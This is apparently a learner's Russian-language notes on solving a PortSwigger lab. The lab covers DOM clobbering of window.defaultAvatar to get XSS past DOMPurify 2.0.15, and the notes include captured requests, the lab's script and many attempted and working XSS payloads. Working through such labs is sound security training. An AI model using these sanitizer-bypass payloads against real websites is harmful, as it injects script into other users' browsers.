





 ### Использование блокировки DOM для включения XSS

 лаба https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering
Эта лаборатория содержит уязвимость, блокирующую DOM.
Функциональность комментариев позволяет использовать "безопасный" HTML

задание: создайте HTML-инъекцию, которая блокирует переменную и использует XSS для вызова `alert()`

-------

приступаю к решению


при загрузке стр поста с комментиами
скачавается json файл со всеми комментами этого поста
```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 887

[{
"avatar":"",
"website":"",
"date":"2026-02-22T11:00:36.279Z",
"body":"Could you do a blog in two parts like a cliff hanger? I need some excitement in my life.",
"author":"Ollie Ollie Ollie"},

{"avatar":"",
"website":"",
"date":"2026-02-28T06:20:41.141Z",
"body":"I was telling my son off for spending too much time on the internet until I saw him reading your blog.",
"author":"Clive Started"},

{"avatar":"",
"website":"",
"date":"2026-03-01T06:42:21.345Z",
"body":"So imaginative that I fell asleep and dreamed about that.",
"author":"Jock Sonyou"},

{"avatar":"",
"website":"",
"date":"2026-03-06T13:07:43.063Z",
"body":"All you need is love.",
"author":"Carrie On"},

{"avatar":"",
"website":"",
"date":"2026-03-06T22:50:04.271Z",
"body":"How long did this take you to write?",
"author":"Sophie Mail"},

{"avatar":"",
"website":"",
"date":"2026-03-18T14:38:22.375853614Z",
"body":"4к34к",
"author":"hacker"}]
```

вот запрос который оставляет коммент!

```http
POST /post/comment HTTP/2
Host: 0ae400a304d96e9081c02fc6004600a9.web-security-academy.net
Cookie: session=kErsl2z1wvsNAKzuCTU7uCaF6bkQ2FyL
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ae400a304d96e9081c02fc6004600a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae400a304d96e9081c02fc6004600a9.web-security-academy.net/post?postId=4
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=sgiz1yqNQk3wrteUcNqQgNyDGN9iwmmo&postId=4&comment=4%D0%BA34%D0%BA&name=hacker&email=hacker%40bk.ru&website=
```

----

вот файл библиотеки,  который сам подгрузился при загрузке сайта
`GET /resources/js/domPurify-2.0.15.js HTTP/2`

```
/*! @license DOMPurify | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/2.0.8/LICENSE */


ЗДЕСЬ КОД САМОЙ ЛАЙБЫ


//# sourceMappingURL=purify.min.js.map
```

DOMPurify — это санитайзер (очиститель) HTML, написанный на JavaScript [](https://dompurify.com/how-does-dompurify-ensure-that-sanitized-html-is-safe-for-injection-into-the-dom-2/). Его задача — взять грязный, потенциально опасный пользовательский контент (например, комментарий с `<script>alert(1)</script>`) и вычистить оттуда всё, что может навредить

---

А ТАКЖЕ в html страницы поста есть строчка которая подгружает файл
`GET /resources/js/loadCommentsWithDomClobbering.js HTTP/2`
вот этот файл

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 2937

function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(data) {
        return data.replace(/[<>'"]/g, function(c){
            return '&#' + c.charCodeAt(0) + ';';
        })
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
            let avatarImgHTML = '';

            let divImgContainer = document.createElement("div");
            divImgContainer.innerHTML = avatarImgHTML

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + DOMPurify.sanitize(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(divImgContainer);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};


```

-------

ИТОГО - что у меня есть:

есть библиотека DOMPurify = защита от xss

есть js файл с функционалом загрузки комментов + их санитаризация!

-----------

пробую посмотреть как работает защита

отправляю коммент
```http
POST /post/comment HTTP/2
Host: 0ae400a304d96e9081c02fc6004600a9.web-security-academy.net
...
...
csrf=sgiz1yqNQk3wrteUcNqQgNyDGN9iwmmo&postId=4&comment=<script>print()</script>&name=hacker&email=hacker%40bk.ru&website=
```
теперь на стр подгружается файл с комментами - в том числе
```json
{"avatar":"","website":"","date":"2026-03-18T14:57:09.348762304Z","body":"<script>print()<\/script>","author":"hacker"}
```
видно, как экранируется слешем мой слеш!

-----

и сами комменты потом динамически подставляются в html путем подгрузки этих скриптов!  то есть я не могу напрямую увидеть то, как виглядит мой коммент-скрипт в коде
```html
                   <span id='user-comments'>
                    <script src='/resources/js/domPurify-2.0.15.js'></script>
                    <script src='/resources/js/loadCommentsWithDomClobbering.js'></script>
                    <script>loadComments('/post/comment')</script>
```

-----
вот так комменты подставляются в html:



```html<span id="user-comments">
                    <script src="/resources/js/domPurify-2.0.15.js"></script>
                    <script src="/resources/js/loadCommentsWithDomClobbering.js"></script>
                    <script>loadComments('/post/comment')</script>
                    
                    
                    
                    
 <section class="comment"><p>Ollie Ollie Ollie | 22-02-2026<div>
 
 </div></p>
 
 
 ВОТ ЗДЕСЬ НИЖЕ - САМ КОММЕНТ
 
 <p>Could you do a blog in two parts like a cliff hanger? I need some excitement in my life.</p>
 
 <p></p></section><section class="comment"><p>Clive Started | 28-02-2026<div>
 
 </div></p><p>I was telling my son off for spending too much time on the internet until I saw him reading your blog.</p><p></p></section><section class="comment"><p>Jock Sonyou | 01-03-2026<div></div></p><p>So imaginative that I fell asleep and dreamed about that.</p><p></p></section><section class="comment">
```

а вот моего коммента с пейлоадом нет вообще. он полностью удален уже, и ничего нет


```html
<section class="comment"><p>hacker | 18-03-2026<div></div></p><p></p><p></p></section>
```

-----------

значит - нужно поискать то, есть ли уязвимости в этой библиотетке domPurify-2.0.15
`GET /resources/js/domPurify-2.0.15.js HTTP/2`
и
и еще проанилзировать код  который есть в файле 
`GET /resources/js/loadCommentsWithDomClobbering.js HTTP/2`
и разобраться в том, как обойти защиту!

-----


в файле `GET /resources/js/loadCommentsWithDomClobbering.js HTTP/2`

есть функция       function escapeHTML(data)  
Она защищает данные, которые вставляются в **атрибуты тегов** (например, в `src` у картинки или `href` у ссылки). Она заменяет опасные символы `<`, `>`, `'`, `"` на их HTML-сущности (например, `'` превращается в `&#39;`). Это не даст закрыть атрибут и вставить свой скрипт

----

поищу уязвимости в библиотеке

иду вот сюда https://nvd.nist.gov/vuln/search#/nvd/home?keyword=DOMPurify&resultType=records
 
вбиваю   в поиске  domPurify

и так аж 13 страниц с уязвимостями этой библиотки!!


теперь осталось поискать рабочие способы обхода  и применить их!

-----

пока-что я обнаружил вот такой пейлоад
```html
<select><option><style>
</style><option></select>
```




получилось вот так внедрить код ^ вот код страницы через интрумент разработчика
```html
<section class="comment">

<p>

zheka | 18-03-2026<div></div>

</p>

<p>

<select>
<option>
<style>

</style>
</option>
<option>
</option>
</select>

</p><p>

</p>

</section>
```

то есть вроде бы пролучилось внедрить мой js код - но он не выполняется!
нужно его чуть подкорректировать, чтобы атоматически сработало это дело

я обновил стр и посмотрел на то, как приходят данные от сервера
и вот там мой пейлоад в самом низу , который не заблокирован библиотекой!!

```json
{

"avatar": "",

"website": "",

"date": "2026-02-22T11:00:36.279Z",

"body": "Could you do a blog in two parts like a cliff hanger? I need some excitement in my life.",

"author": "Ollie Ollie Ollie"

},

{

"avatar": "",

"website": "",

"date": "2026-02-28T06:20:41.141Z",

"body": "I was telling my son off for spending too much time on the internet until I saw him reading your blog.",

"author": "Clive Started"

},

{

"avatar": "",

"website": "",

"date": "2026-03-01T06:42:21.345Z",

"body": "So imaginative that I fell asleep and dreamed about that.",

"author": "Jock Sonyou"

},

{

"avatar": "",

"website": "",

"date": "2026-03-06T13:07:43.063Z",

"body": "All you need is love.",

"author": "Carrie On"

},

{

"avatar": "",

"website": "",

"date": "2026-03-06T22:50:04.271Z",

"body": "How long did this take you to write?",

"author": "Sophie Mail"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:38:22.375853614Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:23.213118943Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:29.306403468Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:40.342341922Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:49.683608763Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:54:59.460033053Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:57:09.348762304Z",

"body": "<script>print()<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:29:11.368290811Z",

"body": "<noscript><div title=\"<\/noscript>\"><\/div><\/noscript>",

"author": "аÑ\u0083а"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:29:27.148953526Z",

"body": "<!-- Mutation XSS ваÑ\u0080ианÑ\u0082 -->\r\n<select><option><style>\r\n<\/style><option><\/select>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:33:47.581337260Z",

"body": "<script>Object.prototype.hasOwnProperty = Object<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:00.559936798Z",

"body": "<script>Object.prototype.ALLOWED_ATTR = [\"src\", \"onerror\"]<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:17.029673064Z",

"body": "<script src=\"//cdn.jsdelivr.net/npm/dompurify@2.4.1/dist/purify.min.js\"><\/script>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:30.234962192Z",

"body": "<script>document.write(DOMPurify.sanitize(''))<\/script>",

"author": "zheka"

},

🟣 вот это DOMPurify.sanitize - это блокировка санитайзером

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:35:01.043861690Z",

"body": "<script>document.write(DOMPurify.sanitize(''))<\/script>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:39:28.738035846Z",

"body": "<select><option><style>\r\n<\/style><option><\/select>",

"author": "zheka"

},

🍺⭐️✅ а вот здесь - ниже, пейлоад прошел проверку! 
НО ЗДЕСЬ ВИДНО, КАК ТОТ ФАЙЛ ДОП, ЧТО ТОЖЕ СРАБАТЫВАЕТ ПРИ ЗАГРУЗКЕ , 
ОН ДОБАВЛЯЕТ СЛЕШИ НЕПОНЯТНЫЕ И ЕЩЕ ПЕРЕНОСЫ СТРОК!  ВОТ ТАК <\
И ТЕМ САМЫМ ЛОМАЕТ АТАКУ
{

"avatar": "",

"website": "",

"date": "2026-03-18T15:43:49.449732810Z",

"body": "<select><option><style>\r\n<\/style><option><\/select>",

"author": "zheka"

}

]
```

ПРОБУЮ ТАК
```html
<select><option><style><option></style></select>
```
не вышло 
вот ответ
`"body":"<select><option><style><option><\/style><\/select>",`  - экранирует!!

------

------
---------
--------




я уже че только не пробовал, уже видно, как и иконки картинок подгрузились вместо аватарки, но алерта нет..

вот js который мне приходит с сервера

ЗДЕСЬ - ВСЕ ПЕЙЛОАДЫ - КОТОРЫЕ Я ПРОБОВАЛ, ЭТО УЖЕ БОЛЬ, НИЧЕГО НЕ РАБОТАЕТ, ХОТЯ HTML пытается грузить картинки и ошибка возникает , и в консоли разработчика я вижу эти ошибки, и по идее должен был сработать и аллерт, но он не сработывает!

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```


```json
HTTP/2 200 OK

Content-Type: application/json; charset=utf-8

X-Frame-Options: SAMEORIGIN

Content-Length: 7462

  

[

{

"avatar": "",

"website": "",

"date": "2026-02-22T11:00:36.279Z",

"body": "Could you do a blog in two parts like a cliff hanger? I need some excitement in my life.",

"author": "Ollie Ollie Ollie"

},

{

"avatar": "",

"website": "",

"date": "2026-02-28T06:20:41.141Z",

"body": "I was telling my son off for spending too much time on the internet until I saw him reading your blog.",

"author": "Clive Started"

},

{

"avatar": "",

"website": "",

"date": "2026-03-01T06:42:21.345Z",

"body": "So imaginative that I fell asleep and dreamed about that.",

"author": "Jock Sonyou"

},

{

"avatar": "",

"website": "",

"date": "2026-03-06T13:07:43.063Z",

"body": "All you need is love.",

"author": "Carrie On"

},

{

"avatar": "",

"website": "",

"date": "2026-03-06T22:50:04.271Z",

"body": "How long did this take you to write?",

"author": "Sophie Mail"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:38:22.375853614Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:23.213118943Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:29.306403468Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:40.342341922Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:43:49.683608763Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:54:59.460033053Z",

"body": "4к34к",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T14:57:09.348762304Z",

"body": "<script>print()<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:29:11.368290811Z",

"body": "<noscript><div title=\"<\/noscript>\"><\/div><\/noscript>",

"author": "аÑ\u0083а"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:29:27.148953526Z",

"body": "<!-- Mutation XSS ваÑ\u0080ианÑ\u0082 -->\r\n<select><option><style>\r\n<\/style><option><\/select>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:33:47.581337260Z",

"body": "<script>Object.prototype.hasOwnProperty = Object<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:00.559936798Z",

"body": "<script>Object.prototype.ALLOWED_ATTR = [\"src\", \"onerror\"]<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:17.029673064Z",

"body": "<script src=\"//cdn.jsdelivr.net/npm/dompurify@2.4.1/dist/purify.min.js\"><\/script>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:34:30.234962192Z",

"body": "<script>document.write(DOMPurify.sanitize(''))<\/script>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:35:01.043861690Z",

"body": "<script>document.write(DOMPurify.sanitize(''))<\/script>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:39:28.738035846Z",

"body": "<select><option><style>\r\n<\/style><option><\/select>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:43:49.449732810Z",

"body": "<select><option><style>\r\n<\/style><option><\/select>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T15:56:45.408348745Z",

"body": "<select><option><style><option><\/style><\/select>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:02:08.391725384Z",

"body": "<select><option><style><style><option><\/select>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:02:21.880203094Z",

"body": "<select><form><math><mtext><style><option><\/form><form><mglyph><style><\/math><\/style><\/mglyph><\/form><\/mtext><\/math><\/form><\/select>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:03:38.475528594Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "https://:<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">.com",

"date": "2026-03-18T16:04:32.932477794Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker2"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:05:00.963279050Z",

"body": "<select><option><style><\/style><\/option><\/select>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:05:21.426346385Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:07:10.264091816Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:07:33.439213242Z",

"body": "etgwetgwegr",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:11:00.759659268Z",

"body": "<script>print()<\/script>",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:11:47.361094694Z",

"body": "privet",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:12:21.493465722Z",

"body": "esche odin",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:13:50.146606029Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:14:08.071412150Z",

"body": "esche odin",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:15:27.698396346Z",

"body": "4к34к",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:17:22.774882454Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:17:38.995917825Z",

"body": "йÑ\u0086ка",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:18:01.955900163Z",

"body": "trigger",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:18:13.266268241Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid: onerror=alert(1)//\">",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:18:21.402019461Z",

"body": "Ñ\u0086каÑ\u0086Ñ\u0083каÑ\u0086",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:19:49.019855190Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:20:11.041115155Z",

"body": "xxxsxsxsxsxsxssxssxxssxxss",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:20:32.708379135Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href='tel:\"onerror=alert(1)//'>",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:20:53.888801009Z",

"body": "xssxssxss",

"author": "xssxs23232"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:21:13.312501605Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid: onerror=alert(1)//\">",

"author": "zheka"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:21:26.973303032Z",

"body": "rrrr",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:22:38.896738799Z",

"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">",

"author": "hacker"

},

{

"avatar": "",

"website": "",

"date": "2026-03-18T16:23:07.666147899Z",

"body": "trigger",

"author": "hacker"

}

]
```

вот, в браузере - висят ошибки, которые пытались подгрузить картинки из моего скрипта, то есть я заставил это сделать браузер, но последующий алерт по "магическим причинам не появляется"




КОРОЧЕ, ничего не работает,  даже официальное решение 

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
не работает

-----
подсмотрел решение в ютубе

```html
<a id ='defaultAvatar'><a id ='defaultAvatar' name='avatar' href='cid:&#x22;&#x20;onerror=alert()&#x20;x=&#x22;'>
```
СРАБОТАЛ!!

  ⭐️ лаба эксперт решена!!

--------------


# так лаба не самая простая была, то вот детальный разбор!!!


## Суть 

В файле loadCommentsWithDomClobbering.js есть опасный код:

```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
```

и если злоумышленник может создать элементы, переопределяющие window.defaultAvatar ДО выполнения этого кода, то вместо безопасного объекта подставится его значение

##  такая защита была реализована

- лайба DOMPurify 2.0.15 - очищает HTML от опасных конструкций
   
- escapeHTML - заменяет символы < > ' " на HTML-сущности
   
- поле website требует протокол http:// или https://
   

